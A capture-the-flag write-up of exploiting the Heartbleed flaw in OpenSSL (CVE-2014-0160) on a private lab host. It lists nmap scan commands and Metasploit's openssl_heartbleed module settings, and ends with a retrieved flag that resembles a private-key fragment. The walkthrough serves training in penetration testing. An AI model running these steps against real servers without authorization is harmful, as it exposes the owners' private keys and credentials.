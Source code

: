 # Vulnerability Exploitation Report: CVE-2014-0160

## Vulnerability Overview
**CVE ID**: CVE-2014-0160  
**CVSS Score**: 7.5 (High)  
**Description**: The Heartbleed vulnerability in OpenSSL (versions 1.0.1 to 1.0.1f) allows attackers to read sensitive data from the memory of servers using vulnerable SSL/TLS implementations. This flaw can expose private keys, credentials, or other sensitive information without authentication.

## Objective
Exploit the CVE-2014-0160 Heartbleed vulnerability on a target server to extract sensitive data and retrieve a flag as part of a capture-the-flag (CTF) challenge.

## Target Information
- **Target IP**: 192.168.5.10
- **Attack Machine IP**: 192.168.0.5
- **Objective**: Retrieve the flag

## Exploitation Steps

### Step 1: Network Discovery
Perform a ping scan to identify active hosts in the 192.168.5.0/24 subnet.

```
nmap -sn 192.168.5.0/24
```

### Step 2: Service Enumeration
Enumerate services on the target host (192.168.5.10) to identify services using SSL/TLS.

```
nmap -sV 192.168.5.10
```

### Step 3: Launch Metasploit
Start the Metasploit Framework to access exploit modules.

```
msfconsole
```

### Step 4: Search for SSL Scan Module
Search Metasploit for modules related to SSL scanning, particularly for Heartbleed.

```
search ssl scan
```

### Step 5: Select Heartbleed Scanner Module
Choose the Metasploit module for the OpenSSL Heartbleed vulnerability.

```
use auxiliary/scanner/ssl/openssl_heartbleed
```

### Step 6: Review Module Details
Display information about the selected module to understand its options and requirements.

```
info
```

### Step 7: Configure the Target Host
Set the target host to the server’s IP address.

```
set RHOSTS 192.168.5.10
```

### Step 8: Execute the Exploit
Run the exploit to extract data from the target server’s memory via the Heartbleed vulnerability.

```
exploit
```

## Final Result
The exploitation was successful, and the flag was retrieved from the target system’s memory.

**Flag**: MIIEvQIBADANBgkq